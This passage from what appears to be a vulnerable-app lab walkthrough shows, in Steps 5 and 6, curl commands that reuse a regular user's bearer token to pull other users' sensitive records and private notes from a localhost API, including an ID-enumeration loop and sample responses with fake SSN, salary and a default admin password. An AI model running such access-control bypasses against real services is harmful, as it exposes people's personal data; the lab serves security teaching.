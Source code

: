 ✅ **Success!** You accessed admin data as a regular user.

#### Step 5: Access Sensitive Data

```bash
# Access sensitive information of any user
curl -H "Authorization: Bearer $TOKEN" \
  http://localhost:3000/api/user/sensitive/1

# Enumerate all users
for id in {1..10}; do
  echo "User ID: $id"
  curl -s -H "Authorization: Bearer $TOKEN" \
    http://localhost:3000/api/user/sensitive/$id | jq .
  echo "---"
done
```

**Sensitive Data Response:**
```json
{
  "success": true,
  "data": {
    "user_id": 1,
    "ssn": "123-45-6789",
    "credit_card": "4532-****-****-1234",
    "salary": 150000,
    "medical_records": "Confidential health data"
  }
}
```

#### Step 6: Access Internal Notes

```bash
# Access private notes
curl -H "Authorization: Bearer $TOKEN" \
  http://localhost:3000/api/user/notes/1
```

**Notes Response:**
```json
{
  "success": true,
  "notes": [
    {
      "id": 1,
      "user_id": 1,
      "title": "Admin Access",
      "content": "Default password: admin123",
      "created_at": "2025-01-01T00:00:00.000Z"
    }
  ]
}
```
